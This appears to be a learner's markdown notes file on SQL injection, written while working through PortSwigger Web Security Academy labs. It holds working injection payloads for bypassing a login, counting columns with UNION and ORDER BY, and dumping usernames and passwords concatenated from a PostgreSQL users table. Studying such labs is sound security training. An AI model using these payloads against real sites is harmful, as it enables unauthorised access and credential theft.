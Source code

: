 /filter?category='+OR+1=1--
/filter?category='+OR+1=1--
/filter?category='+OR+1=1--
/filter?category='+OR+1=1--
/filter?category='+OR+1=1--
/filter?category='+OR+1=1--
/filter?category='+OR+1=1--
/filter?cateogry='+OR+1=1--
/filter?category='+OR+1=1--
/filter?category='+OR+1=1--
filter?category=Gifts'--
https://insecure-website.com/products?category=Gifts'+OR+1=1--
filter?category=%27+OR+1=1--
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
# Burp Suite Academy

## Login Functionality
### Bypassing Pasword

> Example of sql query in the backend to retrieve users
```sql
SELECT firstname FROM users where username='admin' and password='hash'
```

> Example of use of the ' character. When trying to login as ' if it breaks the application on passing it as fill to the prompt or Username and with any password it is prob vuln, as it shows response, and also allow the character ' to close the parameter and produce a syntax error
```sql
SELECT firstname FROM users where username=''' and password='hash'
```

> Into passing user'-- it will cause the query to comment the password part bypassing the password
```sql
SELECT firstname FROM users where username='user'--' and password='hash'
```

## Union Attacks
### SQL injection UNION attack, determining the number of columns returned by the query
---

|  table1  |  table2  |
|:--------:|:--------:|
| a \| b   | a \| b   |
| 1 , 2    | 2 , 3    |
| 3 , 4    | 4 , 5    |

> Example of the SQL query in the backend using the UNION keyword to retrieve data from another tables in the DB
```sql
SELECT a, b FROM table1
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```
> -error -> incorrect number of columns
```sql
SELECT ? FROM table1 UNION SELECT NULL
```

> 200 response code -> correct number of columns
```sql
SELECT ? FROM table1 UNION SELECT NULL, NULL, NULL
```
> How that looks on an url 
```
filter?category=Gifts'+UNION+SELECT+NULL--
```
```
filter?category=Gifts'+UNION+SELECT+NULL, NULL, NULL--
```
Also passing ORDER BY n, being n the amount of tables we think the UNION is relying on. If we get an error, that means the amount of tables is incorret so
for example in the case bellow, if passing 3 gives an error and passing 2 don't means it's realying on 2 tables.

> Example of the SQL Query in the backend
```sql 
select a,b from table1 ORDER BY 2
```
> How that looks on an url
```
filter?category=Gifts' ORDER BY 3--
```

### SQL Injection UNION attack, retrieving multiple values in a single column
---
#### URL Injection Method

The objective is to Retrieve all usernames and passwords and login as the administrator user.

> by clicking on Accesories we see on the url  
```
filter?category=Accesories
```

> by modifying that, with a SQL character we got a server error so it's vulnerable to SQL injections
```
filter?category=Accesories'
```

> On URL Determine the number of columns that are being returned by the query
```
filter?category=Accesories'+order by 1--
filter?category=Accesories'+order by 2--
filter?category=Accesories'+order by 3--
```
On the third it crashses so it's returning 2 columns

> Also
```
filter?category=Accesories'+UNION+SELECT+NULL--
```
> Nonetheless the below query does return two columns

```
filter+category=Accesories'+UNION+SELECT+NULL,NULL--
```

> And the below query does produces another server error, so 2 columns are being returned
```
filter+category=Accesories'+UNION+SELECT+NULL,NULL,NULL--
```


> Outputing data from another tables
```
' UNION SELECT NULL, username from users--
' UNION SELECT NULL, password from users--
```

Outputting both in one query, [String Concatenation](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Figuring out the [database version](https://portswigger.net/web-security/sql-injection/cheat-sheet#database-version)
> Test the commands to query the database version, the one that outputs resulting is
```
' UNION SELECT null, version()--
```
So its a PostgreSQL database

> The command to Concatenate strings in PostgreSQL would be
```
' UNION SELECT NULL, username || password from users--
```
> That returns all concatenate, to put a random character, so we know where each one starts and end
```
' UNION SELECT NULL, username || '*' || password from users--
```

> Academy Solution:
```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
